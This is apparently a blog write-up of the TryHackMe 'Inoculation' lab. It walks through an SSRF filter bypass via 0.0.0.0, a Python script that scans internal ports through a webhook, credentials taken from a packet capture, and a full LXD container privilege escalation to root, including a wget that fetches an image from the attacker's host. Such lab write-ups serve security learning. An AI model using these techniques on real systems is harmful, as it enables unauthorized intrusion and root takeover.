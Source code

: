 ```yaml
---
layout: post
title: Inoculation
date: 2020-09-25 00:00:00 +5:30
categories: [TryHackMe, Hard]
tags: [tryhackme, burp, wireshark, webhooks, lxd] # add tag
image: /assets/img/inoculation/inoc.jpeg
---
```


## Description

The Following Post is writeup of Inoculation room of tryhackme <https://tryhackme.com/room/inoculation>

|Machine|Detail
|:---|:--
|OS | Linux
|Rating | Hard
|Creator | [zayotic](https://tryhackme.com/p/zayotic)

## Summary

The machine have 2 open ports 22 and 80, In port 80 we have a webpage which has webhooks and we can
request to url through that. So requesting 0.0.0.0 calls itself (bypassing the restriction).
Then I fuzz the ports and found there was a port 9999 running inside localhost and contains a wireshark
file. Reading that will give us creds and we got user. The root is lxd privesc.

## Walkthrough

### Enumeration

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 58:5d:6d:04:17:08:98:fc:67:ae:36:8b:b6:47:d3:2b (RSA)
|   256 cd:a1:63:57:0f:0c:59:fb:12:5b:00:ea:e1:de:75:66 (ECDSA)
|_  256 43:cf:9a:75:12:fd:86:65:bf:76:84:f9:ef:33:4a:d1 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Inoculation
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

So let;s see port 80

#### port 80

![Port](/assets/img/inoculation/port80webhooks.png)
We can see output webhooks and it make a get request whenever we put URL.
But we can only make http or https requests Plus the 127.0.0.1 is restricted.
So i looked for possible bypass and we can use 0.0.0.0 and it  will give the same results.

So Here i stuck for a bit and looked for any solution.
There is a possiblity that this machine have some port listening in it's internal IP.

I tried fuzzing using python

```python
import requests
from bs4 import BeautifulSoup

url = "http://10.10.122.37/testhook.php"
for i in range(1,65535):
    x = str(i)
    var = 'http://0.0.0.0:' + x
    mydata = {'handler': var}
    page = requests.post(url, data = mydata)
    length = len(page.content)
    if length == 0:
        print(x + ' port is not correct')
        continue
    else:
        soup = BeautifulSoup(page.content, 'html.parser')
        print(soup.prettify())
```

So this thing ran for about an hour and two.(sooooo.... long :( )
and we got port 9999
![Port](/assets/img/inoculation/webhooks9999.png)

![dump.pcap](/assets/img/inoculation/dumppcap.png)
seeing the port there is a dump.pcap and it have a information about user and password.

### Exploitation

So we logged in

![Port](/assets/img/inoculation/login.png)

I ran linpeas.sh to get privesc factors

```bash
[+] My user
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#groups
uid=1000(maynard) gid=1000(maynard) groups=1000(maynard),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)

maynard@inoculation:/tmp$ wget 10.8.108.114:8001/alpine.tar.gz
--2020-09-25 05:59:12--  http://10.8.108.114:8001/alpine.tar.gz
Connecting to 10.8.108.114:8001... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3109440 (3.0M) [application/gzip]
Saving to: ‘alpine.tar.gz’

alpine.tar.gz                     100%[==========================================================>]   2.96M   383KB/s    in 10s     

2020-09-25 05:59:22 (298 KB/s) - ‘alpine.tar.gz’ saved [3109440/3109440]

maynard@inoculation:/tmp$ lxc image import ./apline-v3.10-x86_64-20191008_1227.tar.gz --alias myimage
Generating a client certificate. This may take a minute...
^C
maynard@inoculation:/tmp$ chmod +x alpine.tar.gz
maynard@inoculation:/tmp$ lxc image import ./alpine.tar.gz --alias myimage
Generating a client certificate. This may take a minute...
If this is your first time using LXD, you should also run: sudo lxd init
To start your first container, try: lxc launch ubuntu:16.04

Image imported with fingerprint: cb2dd242acb16b000400807128b9a7110c603cc5f097873835541955c7a64631
maynard@inoculation:/tmp$ ~
-bash: /home/maynard: Is a directory
maynard@inoculation:/tmp$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |          UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
| myimage | cb2dd242acb1 | no     | alpine v3.12 (20200826_12:01) | x86_64 | 2.97MB | Sep 25, 2020 at 11:00am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
maynard@inoculation:/tmp$ 1

1: command not found
maynard@inoculation:/tmp$
maynard@inoculation:/tmp$ lxc image list
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |          UPLOAD DATE          |
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
| myimage | cb2dd242acb1 | no     | alpine v3.12 (20200826_12:01) | x86_64 | 2.97MB | Sep 25, 2020 at 11:00am (UTC) |
+---------+--------------+--------+-------------------------------+--------+--------+-------------------------------+
maynard@inoculation:/tmp$ lxc init myimage ignite -c security.privileged=true
Creating ignite
maynard@inoculation:/tmp$ lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to ignite
maynard@inoculation:/tmp$ lxc start ignite
maynard@inoculation:/tmp$ lxc exec ignite /bin/sh
id~ # id
uid=0(root) gid=0(root)
~ # bash
/bin/sh: bash: not found
~ # cd /mnt
/mnt # ls
```

Rooted
